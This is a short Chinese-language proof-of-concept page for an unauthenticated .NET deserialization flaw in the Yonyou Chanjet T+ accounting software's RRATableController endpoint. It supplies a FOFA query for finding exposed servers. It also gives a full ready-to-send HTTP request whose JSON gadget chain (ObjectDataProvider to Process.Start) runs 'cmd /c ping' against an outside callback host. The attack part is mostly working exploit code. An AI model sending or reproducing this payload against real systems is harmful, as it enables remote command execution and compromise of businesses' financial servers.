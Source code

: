 ## 用友畅捷通RRATableController存在反序列化漏洞

用友畅捷通 T+ /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx接口存在.net反序列化漏洞，未经过身份认证的攻击者可以通过构造恶意的序列化请求在目标服务器上执行任意命令。


## fofa
```
app="畅捷通-TPlus"
```

## poc
```
POST /tplus/ajaxpro/Ufida.T.DI.UIP.RRA.RRATableController,Ufida.T.DI.UIP.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/json
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ping bfygdwmtkk.dgrh3.cn"
       }
    }
  }
}
```

![6bb2469b6a58fb49ed786d38aa95cab3](../../images/559f3c66-5885-4de8-97dc-382dc49ef810.png)
